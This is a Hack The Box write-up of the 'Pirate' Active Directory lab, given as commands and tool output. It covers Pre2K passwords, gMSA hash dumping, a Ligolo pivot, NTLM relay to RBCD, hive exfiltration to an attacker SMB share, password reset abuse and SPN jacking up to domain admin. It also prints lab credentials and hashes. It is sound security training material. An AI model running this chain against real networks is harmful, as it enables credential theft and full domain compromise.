


![[pirate logo.png]]


# Attack Summary
```
pentest (Domain User)
  └─► Pre2K → MS01$:ms01
        └─► ReadGMSAPassword → gMSA_ADFS_prod$ (NTLM hash)
              └─► WinRM on DC01 → Ligolo pivot (192.168.100.0/24)
                    └─► NTLM Relay RBCD → BNBBLKCK$ → Admin@WEB01
                          └─► secretsdump WEB01 → a.white:E2nvAOKSz5Xz2MJu
                                └─► ForceChangePassword → a.white_adm
                                      └─► SPN Jacking (IT→WriteSPN→DC01$)
                                            └─► S4U2Proxy + tgssub
                                                  └─► Administrator@DC01 ✅
```

We start we the following credentials

- `pentest` : `p3nt3st2025!&`

## Enumeration

```
nmap -sVC -p- 10.129.13.29
Starting Nmap 7.93 ( https://nmap.org ) at 2026-03-01 17:23 CET
Nmap scan report for 10.129.13.29
Host is up (0.031s latency).
Not shown: 65511 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-01 23:31:01Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: pirate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-01T23:32:42+00:00; +7h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2025-06-09T14:05:15
|_Not valid after:  2026-06-09T14:05:15
443/tcp   open  https?
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: pirate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-01T23:32:41+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2025-06-09T14:05:15
|_Not valid after:  2026-06-09T14:05:15
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: pirate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-01T23:32:42+00:00; +7h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2025-06-09T14:05:15
|_Not valid after:  2026-06-09T14:05:15
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: pirate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-01T23:32:41+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.pirate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.pirate.htb
| Not valid before: 2025-06-09T14:05:15
|_Not valid after:  2026-06-09T14:05:15
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49906/tcp open  msrpc         Microsoft Windows RPC
59348/tcp open  msrpc         Microsoft Windows RPC
59373/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| smb2-time:
|   date: 2026-03-01T23:32:02
|_  start_date: N/A
|_clock-skew: mean: 7h00m01s, deviation: 0s, median: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 573.27 seconds
```

```
adidnsdump -u 'pirate.htb\pentest' -p 'p3nt3st2025!&' ldap://10.129.14.39
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Querying zone for records
[+] Found 11 records, saving to records.csv
[Mar 03, 2026 - 16:28:43 (CET)] exegol-htb /workspace # cat records.csv                                                 type,name,value
A,WEB01,192.168.100.2
A,ForestDnsZones,192.168.100.1
A,ForestDnsZones,10.129.14.39
A,DomainDnsZones,192.168.100.1
A,DomainDnsZones,10.129.14.39
A,dc01,10.129.14.39
A,dc01,192.168.100.1
NS,_msdcs,dc01.pirate.htb.
NS,@,dc01.pirate.htb.
A,@,192.168.100.1
A,@,10.129.14.39
```
**/etc/hosts file**

```
10.129.14.39 DC01.pirate.htb pirate.htb MS01.pirate.htb
192.168.100.2 WEB01.pirate.htb
```

## Bloodhound

```
bloodhound-ce.py -c All -d "pirate.htb" -u "pentest" -p 'p3nt3st2025!&' -dc "DC01.pirate.htb" -ns "10.129.13.29"
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: pirate.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: DC01.pirate.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: DC01.pirate.htb
INFO: Connecting to GC LDAP server: dc01.pirate.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer:
INFO: Querying computer:
INFO: Querying computer: WEB01.pirate.htb
INFO: Querying computer: DC01.pirate.htb
INFO: Done in 00M 08S
```


There is the group **PRE-WINDOWS 2000 COMPATIBLE ACCESS**. 
In older Active Directory environments (Pre-Windows 2000 compatible), the default password for a machine account was often set to the computer's name in lowercase (e.g., `MS01$` -> `ms01`). The presence of the `Pre-Windows 2000 Compatible Access` group hinted at this potential legacy misconfiguration, allowing us to secure our initial foothold on the domain.

```
pre2k auth -u pentest -p 'p3nt3st2025!&' -d pirate.htb -dc-ip 10.129.14.39 -verbose

                                ___    __
                              /'___`\ /\ \
 _____   _ __    __          /\_\ /\ \\ \ \/'\
/\ '__`\/\`'__\/'__`\ _______\/_/// /__\ \ , <
\ \ \L\ \ \ \//\  __//\______\  // /_\ \\ \ \\`\
 \ \ ,__/\ \_\\ \____\/______/ /\______/ \ \_\ \_\
  \ \ \/  \/_/ \/____/         \/_____/   \/_/\/_/
   \ \_\                                      v3.1
    \/_/
                                            @unsigned_sh0rt
                                            @Tw1sm

[01:22:26] INFO     Retrieved 8 results total.
[01:22:26] INFO     Testing started at 2026-03-04 01:22:26
[01:22:26] INFO     Using 10 threads
[01:22:26] DEBUG    Invalid credentials: pirate.htb\BNBBLKCK$:bnbblkck
[01:22:26] DEBUG    Invalid credentials: pirate.htb\gMSA_ADFS_prod$:gmsa_adfs_prod
[01:22:26] DEBUG    Invalid credentials: pirate.htb\EVIL01$:evil01
[01:22:26] DEBUG    Invalid credentials: pirate.htb\gMSA_ADCS_prod$:gmsa_adcs_prod
[01:22:26] DEBUG    Invalid credentials: pirate.htb\WEB01$:web01
[01:22:26] INFO     VALID CREDENTIALS: pirate.htb\EXCH01$:exch01
[01:22:26] INFO     VALID CREDENTIALS: pirate.htb\MS01$:ms01
[01:22:26] DEBUG    Invalid credentials: pirate.htb\DC01$:dc01
```

That's indeed the case, and we have valid credentials for `MS01$` and `EXCH01$`.


MS01$ has **ReadGMSAPassword** Enable on the account **GMSA_ADCS_PROD** which can connect via winrm on `DC01$`, so let's target that machine.

## TGT for MS01

First we need to get a TGT for `MS01$`

```
faketime "$(rdate -n 10.129.14.39 -p | awk '{print $2, $3, $4}' | date -f - "+%Y-%m-%d %H:%M:%S")" zsh
```
```
getTGT.py 'pirate.htb/MS01$:ms01' -dc-ip 10.129.14.39
export KRB5CCNAME=MS01\$.ccache
```

## GMSA hash dump

Group Managed Service Accounts (gMSA) are accounts whose passwords are automatically managed by Active Directory. However, the `msDS-GroupMSAMembership` attribute defines who is allowed to read these passwords. Since `MS01$` is a member of the `Domain Secure Servers` group, which possesses this specific right, we are able to query LDAP and extract the NTLM hashes of the gMSA accounts.

Now that we got `MS01$`'s TGT, we can dump hashes for GMSA accounts

```
nxc ldap 10.129.14.39 -u 'MS01$' -p 'ms01' -k --gmsa
faketime: You appear to be running faketime within a libfaketime environment. Proceeding, but check for unexpected results...
LDAP        10.129.14.39    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:pirate.htb) (signing:None) (channel binding:Never)
LDAP        10.129.14.39    389    DC01             [+] pirate.htb\MS01$:ms01
LDAP        10.129.14.39    389    DC01             [*] Getting GMSA Passwords
LDAP        10.129.14.39    389    DC01             Account: gMSA_ADCS_prod$      NTLM: 304106f739822ea2ad8ebe23f802d078     PrincipalsAllowedToReadPassword: Domain Secure Servers
LDAP        10.129.14.39    389    DC01             Account: gMSA_ADFS_prod$      NTLM: 8126756fb2e69697bfcb04816e685839     PrincipalsAllowedToReadPassword: Domain Secure Servers
```
We got the following hashes

- `gMSA_ADFS_prod$`:`8126756fb2e69697bfcb04816e685839` 
- `gMSA_ADCS_prod$`: `304106f739822ea2ad8ebe23f802d078`

Let's connect to the `DC01$`

```
 evil-winrm -i 10.129.14.39 -u 'gMSA_ADFS_prod$' -H '8126756fb2e69697bfcb04816e685839'

*Evil-WinRM* PS C:\Users\gMSA_ADFS_prod$\Documents>
```
It worked

## Ligolo

On the target, we notice that there is an internal network

```
ipconfig

Windows IP Configuration


Ethernet adapter vEthernet (Switch01):

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::d976:c606:587e:f1e1%8
   IPv4 Address. . . . . . . . . . . : 192.168.100.1
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : .htb
   IPv4 Address. . . . . . . . . . . : 10.129.14.39
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.129.0.1
```

In order to pivot into that network, we can use `ligolo-ng`


**Setup of the virtual network**
```
sudo ip tuntap add user root mode tun ligolo
sudo ip link set ligolo up
```

**Lauchn of ligolo**
```
ligolo-ng -selfcert
```


We have to upload agent.exe on the target with `evil-winrm`

**target - connect to ligolo**
```
.\agent.exe -connect 10.10.16.54:11601 -ignore-cert
```

**Add route**
```
ip route add 192.168.100.0/24 dev ligolo
```


## NTLMrelay

By coercing `WEB01$` to authenticate to our attacking machine, we relayed this authentication to the domain controller's LDAP service. Using the `--delegate-access` flag, `ntlmrelayx` leveraged this relayed session to create a new machine account under our control (`BNBBLKCK$`) and modified the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on `WEB01$`. 

This successfully configured **Resource-Based Constrained Delegation (RBCD)**, granting our rogue account the right to impersonate any user on `WEB01`.


First, we set up `ntlmrelayx` to listen and target LDAPS on the Domain Controller

```
ntlmrelayx -t ldaps://10.129.14.39 --delegate-access -smb2support --remove-mic
```

LDAPS is required here because modifying sensitive attributes like `msDS-AllowedToActOnBehalfOfOtherIdentity` requires an encrypted channel. The `--remove-mic` flag is also necessary to strip the Message Integrity Code from the NTLM negotiation, which would otherwise prevent the relay from succeeding.


With our listener running, we force the authentication from `WEB01$` with `coercer` to trigger the attack. (We use the `gMSA_ADFS_prod$` account to ensure we have the necessary RPC access rights to trigger the coercion).

```
coercer coerce -t 192.168.100.2 -l 10.10.16.54 -u 'gMSA_ADFS_prod$' --hashes :8126756fb2e69697bfcb04816e685839 -d pirate.htb --always-continue
```

```
[*] ldaps://PIRATE/WEB01$@10.129.14.39 [2] -> Adding new computer with username: BNBBLKCK$ and password: 1N>#$bsSdVsemvX result: OK
[*] ldaps://PIRATE/WEB01$@10.129.14.39 [2] -> Delegation rights modified succesfully!
[*] ldaps://PIRATE/WEB01$@10.129.14.39 [2] -> BNBBLKCK$ can now impersonate users on WEB01$ via S4U2Proxy
```

Now that RBCD is configured, we use `getST.py` with our newly created machine account to request a Kerberos Service Ticket for `WEB01`, impersonating the Administrator.

```
getST.py 'pirate.htb/BNBBLKCK$:1N>#$bsSdVsemvX' -spn 'cifs/WEB01.pirate.htb' 
-impersonate Administrator -dc-ip 10.129.14.39

Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache
```

Finally, we export the ticket and pass it to `wmiexec.py` to get our shell

```
export KRB5CCNAME=Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache
```

```
wmiexec.py -k -no-pass Administrator@WEB01.pirate.htb
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

We can now read the user flag under `C:\Users\a.white\Desktop\user.txt`.


## Dump SAM database


We can now dump **sam** and **security** hives and transfer them to our attacking machine

```
smbserver.py -smb2support share .
```

```
C:\Windows\Temp>reg save HKLM\SAM C:\Windows\Temp\sam
```
```
C:\Windows\Temp>reg save HKLM\SYSTEM C:\Windows\Temp\system
```
```
C:\Windows\Temp>reg save HKLM\SECURITY C:\Windows\Temp\security
```

```
C:\Windows\Temp>copy sam \\10.10.16.54\share
```
```
C:\Windows\Temp>copy system \\10.10.16.54\share
```
```
C:\Windows\Temp>copy security \\10.10.16.54\share
```


```
secretsdump.py -sam sam -system system -security security LOCAL
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x342dfe90cc4061078b79f011cd08f931
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b1aac1584c2ea8ed0a9429684e4fc3e5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:60da2d3ba00d6b5932e4c87dce6fa6b4:::
[*] Dumping cached domain logon information (domain/username:hash)
PIRATE.HTB/Administrator:$DCC2$10240#Administrator#8baf09ddc5830ac4456ee8639dd89644: (2026-02-25 02:41:09+00:00)
PIRATE.HTB/gMSA_ADFS_prod$:$DCC2$10240#gMSA_ADFS_prod$#66812dfee46ff41c9c8245a2819c3183: (2026-03-03 00:32:10+00:00)
PIRATE.HTB/a.white:$DCC2$10240#a.white#366c8924be3ea6d1d12825569a4bcc39: (2026-03-03 00:30:06+00:00)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:29f1505d87014b01b4317fed1d52ddbee2792a698e7e1de1bcdf29ab5d4b8e54828ce470d23491ba84e82d786622a821a14c730cf8610a32db1951b7619ee08c3bcacbab53aac8e052bd64e638c6bbd9529daacf04f86cfb9034808c4378d2c328c8c6afe7655f4a099dc41caeb6279c53313edcbd58db3e14490b7543ba3250ac200ec9834992b61b3f4319162645b50f402de4db0843fc43db7d54e04828abf86e490959bc88670e50f0b50373a3745f70039f8fd032435c4a725526957c7ae0dbaa81273b3aa28c0b029fea90c271b6601ef3ba7a05a13ec8c8ffd9999dd10eee87b4b9eb08a8a4af90710056f558
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:feba09cf0013fbf5834f50def734bca9
[*] DefaultPassword
(Unknown User):E2nvAOKSz5Xz2MJu

<SNIP>

[*] Cleaning up...
```

We have the password `E2nvAOKSz5Xz2MJu` but we don't know to which user it belong. Though we can see that there is a cached session for `a.white`, so we can try them with `nxc`.

```
nxc smb 10.129.14.39 -u 'a.white' -p 'E2nvAOKSz5Xz2MJu'         SMB         
SMB         10.129.14.39    445    DC01             
[+] pirate.htb\a.white:E2nvAOKSz5Xz2MJu
```

And the creds are valid

## Change password of a.white_adm

BloodHound revealed that `a.white` holds the `ForceChangePassword` right over the `a.white_adm` account. 
This is a critical Access Control List (ACL) vulnerability since it allows us to reset the target user's password without needing to know their current one, effectively achieving both horizontal and vertical privilege escalation.


We will use `bloodyAD` to change it

```
bloodyAD --host "10.129.15.35" -d "pirate.htb" -u "a.white" -p "E2nvAOKSz5Xz2MJu" set password a.white_adm 'P@ssword123!'

[+] Password changed successfully!
```

## SPN Jacking



Our user is a member of the group IT which has the "**WriteSPN**" right on DC01.pirate.htb.

I followed the tutorial from there

https://www.thehacker.recipes/ad/movement/kerberos/spn-jacking

The SPN Jacking attack exploits a logical flaw in Kerberos delegation. 
The `a.white_adm` user has the right to delegate tickets (Kerberos Constrained Delegation) to the `http/WEB01.pirate.htb` service. The Key Distribution Center (KDC) doesn't verify which machine actually hosts this SPN; it only checks if we are authorized to target that specific name.

By leveraging our `WriteSPN` privilege on the Domain Controller, we:

- Removed the SPN from `WEB01$` to avoid conflicts in the directory.
- Added this exact SPN to the `DC01$` object.
- Requested a service ticket via the S4U2Self and S4U2Proxy extensions.


Because the SPN now officially resided on DC01 in the directory, the KDC encrypted the ticket using DC01's machine key. 


Let's list SPNs in the KDC configuration.

```
findDelegation.py -dc-ip "10.129.15.35" "pirate.htb"/"a.white_adm":'P@ssword123!'
```



We must first remove the SPN of **WEB01$**
```
addspn.py -u 'pirate.htb\a.white_adm' -p 'P@ssword123!' -t 'WEB01$' --remove -s 'http/WEB01.pirate.htb' 10.129.15.35

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```

The we add the SPN on **DC01$**

```
addspn.py -u 'pirate.htb\a.white_adm' -p 'P@ssword123!' -t 'DC01$' -s 'http/WEB01.pirate.htb' 10.129.15.35

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```

The we request a ticket

```
getST.py -spn 'http/WEB01.pirate.htb' -impersonate Administrator -dc-ip 10.129.15.35 'pirate.htb/a.white_adm:P@ssword123!'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@http_WEB01.pirate.htb@PIRATE.HTB.ccache
```

We then used `tgssub.py` to modify the `sname` field in the unencrypted portion of the ticket, replacing the `http/WEB01.pirate.htb` service name with `cifs/DC01.pirate.htb`. Since the encrypted blob was signed by DC01's key, the Domain Controller accepted it as valid.

```
tgssub.py -in Administrator@http_WEB01.pirate.htb -out dc01_admin.ccache -altservice "cifs/DC01.pirate.htb"
```

## Shell as Administrator on DC01

```
export KRB5CCNAME=dc01_admin.ccache
```
```
wmiexec.py -k -no-pass DC01.pirate.htb

Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

```
type C:\Users\Administrator\Desktop\root.txt

c000ceea9998ccc2b00883ed56078fea
```


https://labs.hackthebox.com/achievement/machine/2127339/844


